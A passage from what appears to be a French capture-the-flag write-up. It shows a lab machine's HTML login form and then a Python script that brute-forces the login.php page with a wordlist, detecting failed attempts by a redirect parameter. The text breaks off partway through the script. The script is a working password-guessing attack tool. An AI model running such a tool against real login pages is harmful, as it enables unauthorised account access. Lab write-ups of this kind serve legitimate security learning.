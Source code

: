 et `personal.php` :  

```html
<HTML>
<FORM name="login" method="post" action="check.php">
<CENTER>
<H1> Personal Folder Login </H1>
<H3>
<STRONG>Username:</STRONG>
<INPUT name="username" id="username" type="text" value=""/>
<BR>
<BR>
<STRONG>Password:</STRONG>
<INPUT name="password" id="password" type="password" value=""/>
<BR>
<BR>
<INPUT name="mysubmit" id="mysubmit" type="submit" value="Login"/>
</H3>
</HTML>
```

Dans un premier temps, j'ai essayé de brute-forcer les deux formulaires de login (`login.php` et `check.php`) avec les scripts respectifs suivants :  

```python
import requests
import sys

if len(sys.argv) < 2:
  print "Usage: python {0} <user> <dict_file>".format(sys.argv[0])
  sys.exit()

hdrs = {
    "referer": "http://192.168.1.29/super_secret_login_path_muhahaha/",
    "content-type": "application/x-www-form-urlencoded"
    }
data = {
      "username": sys.argv[1],
      "password": "test",
      "mysubmit": "Login"
    }

fd = open(sys.argv[2])
i = 0

while True:
  word = fd.readline()
  if not word:
    break

  word = word.strip()
  data["password"] = word
  i = i + 1
  if i == 500:
      print "Testing", word
      i = 0

  sess = requests.session()
  r = sess.post("http://192.168.1.29/super_secret_login_path_muhahaha/login.php", data=data, headers=hdrs, allow_redirects=False)
  if "location" in r.headers:
    # en cas d'erreur le script nous redirige avec ce parametre
    if r.headers["location"].endswith("the_user_is_a_failure=1"):
      continue

```